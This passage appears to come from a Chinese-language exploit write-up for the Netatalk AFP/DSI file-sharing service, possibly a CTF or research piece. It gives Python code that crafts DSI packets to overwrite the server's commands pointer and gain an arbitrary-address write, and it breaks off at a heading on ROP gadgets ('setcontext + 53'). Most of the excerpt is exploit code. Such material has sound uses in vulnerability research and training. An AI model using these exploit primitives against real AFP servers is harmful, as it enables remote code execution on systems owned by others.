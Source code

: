 第二个数据包的payload部分，第一个字节是function index，指向afp_switch函数数组中一个单元，设为0即可。构建数据包的代码如下：

```python
def createDSIHeader(command, payload):
    dsi_header = b'\x00'  # dsi_flags, DSIFL_REQUEST
    dsi_header += command  # dsi_command
    dsi_header += b'\x01\x00'  # dsi_requestID
    dsi_header += p32(0)  # dsi_data
    dsi_header += struct.pack(">I", len(payload))  # dsi_len
    dsi_header += p32(0)  # dsi_reserved
    return dsi_header

def replaceCommandPtr(io, addr):
    cmd_payload = p32(0)  # attn_quantum
    cmd_payload += p32(0)  # datasize
    cmd_payload += p32(FLAG_VAL)  # server_quantum
    cmd_payload += p32(0)  # serverID & clientID
    cmd_payload += addr  # **************** commands ptr ****************
    cmd_header = b'\x01'  # DSIOPT_ATTNQUANT
    cmd_header += p8(len(cmd_payload))
    dsifunc_open = b'\x04'  # DSIFUNC_OPEN
    dsi_header = createDSIHeader(dsifunc_open, cmd_header + cmd_payload)
    msg = dsi_header + cmd_header + cmd_payload
    io.send(msg)
    try:
        reply = io.recv()
        return reply
    except:
        return None

def aaw(io, payload):
    dsifunc_cmd = b'\x04'                          # 
    dsi_payload = b'\x00'                          # 
    dsi_payload += payload
    dsi_header = createDSIHeader(dsifunc_cmd, dsi_payload)
    msg = dsi_header + dsi_payload
    io.send(msg)
```

## 几个gadgets
### 1. setcontext + 53